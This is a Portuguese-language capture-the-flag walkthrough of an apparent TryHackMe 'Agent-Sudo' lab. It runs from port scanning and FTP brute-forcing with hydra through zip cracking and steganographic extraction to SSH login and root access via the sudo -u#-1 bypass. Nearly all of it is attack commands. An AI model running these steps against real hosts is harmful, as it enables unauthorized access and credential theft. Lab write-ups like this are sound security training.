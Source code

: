 # Agent-Sudo

* ### Scan de portas - Verificando quais portas estão abertas.

```bash
rustscan -a 10.10.20.48
```

![image](https://github.com/lufffe/Writeups/assets/90646635/cd3568d5-c517-4d16-9d14-a72a6a77943b)


![image](https://github.com/lufffe/Writeups/assets/90646635/f394bbd5-c321-478c-9931-506790ea7383)


* ### Verificando o que está rodando nas portas encontradas.
```bash
nmap -A -p 21,22,80 10.10.20.48
```
![image](https://github.com/lufffe/Writeups/assets/90646635/4c62a143-6d89-4fe2-8ffb-2ba7da07a262)

* ### Olhando no http
  
![image](https://github.com/lufffe/Writeups/assets/90646635/589e6c75-6ab2-46c1-a20e-c991c03bc289)


```bash
curl -A "C" -L 10.10.224.108
```
![image](https://github.com/lufffe/Writeups/assets/90646635/de62aa42-e5d5-4322-b7d2-6cef17f7d6e5)

* ###  Scan de Arquivos e Diretórios.
```bash
gobuster dir -u http://10.10.20.48 -w directory-list-2.3-small.txt -t 100 --no-error
```

* ### Bruteforce no FTP
```bash
hydra -l chris -P ~/rockyou.txt ftp://10.10.20.48
```

![image](https://github.com/lufffe/Writeups/assets/90646635/59be2048-e06f-4409-92e1-5182a28763e7)

* ### Acessando o FTP.
```bash
ftp 10.10.20.48
```
![image](https://github.com/lufffe/Writeups/assets/90646635/e3b8c8f2-4606-482e-a2d0-fba0f607b853)


```bash
binwalk -e cutie.png
```
![image](https://github.com/lufffe/Writeups/assets/90646635/9e894823-400d-44d9-af12-e80691915f8a)

```bash
zip2john 8702.zip > hash.txt 
```

```bash
john --wordlist=~/rockyou.txt hash.txt
```

![image](https://github.com/lufffe/Writeups/assets/90646635/ca6362d6-01f4-47fb-bef1-96a9ca9afd71)

 
```bash
7z x 8702.zip 
```
![image](https://github.com/lufffe/Writeups/assets/90646635/67030a0b-8f9b-472a-bb11-c8d73fe80f07)

```bash
cat To_agentR.txt 
```
![image](https://github.com/lufffe/Writeups/assets/90646635/d59d51b8-dce2-4e9b-84e8-9641c2ebcc9f)


![image](https://github.com/lufffe/Writeups/assets/90646635/e3d6aa92-6bbd-48b6-a641-378aa139910b)

```bash
steghide extract -sf cute-alien.jpg
```

![image](https://github.com/lufffe/Writeups/assets/90646635/5aa953fc-08b7-4af4-9326-f9bb0297ae44)



```Bash
cat message.txt
```
![image](https://github.com/lufffe/Writeups/assets/90646635/86e61009-c530-4622-8d1b-9a93bd9486ff)

```Bash
ssh james@10.10.20.48
```
![image](https://github.com/lufffe/Writeups/assets/90646635/f488accb-48ed-496f-b3af-e55bcee36c0e)

* ### Flag User.
```bash
cat user_flag.txt
```

```bash
sudo -l
```
![image](https://github.com/lufffe/Writeups/assets/90646635/43eff9af-ea8b-4d66-8f8d-a7f6f6653bda)

```bash
james@agent-sudo:~$ sudo -u#-1 /bin/bash
```
![image](https://github.com/lufffe/Writeups/assets/90646635/8607e831-f124-42bf-aab4-2662af23ffdc)

* ### Flag Root.
```bash
cat /root/root.txt
```
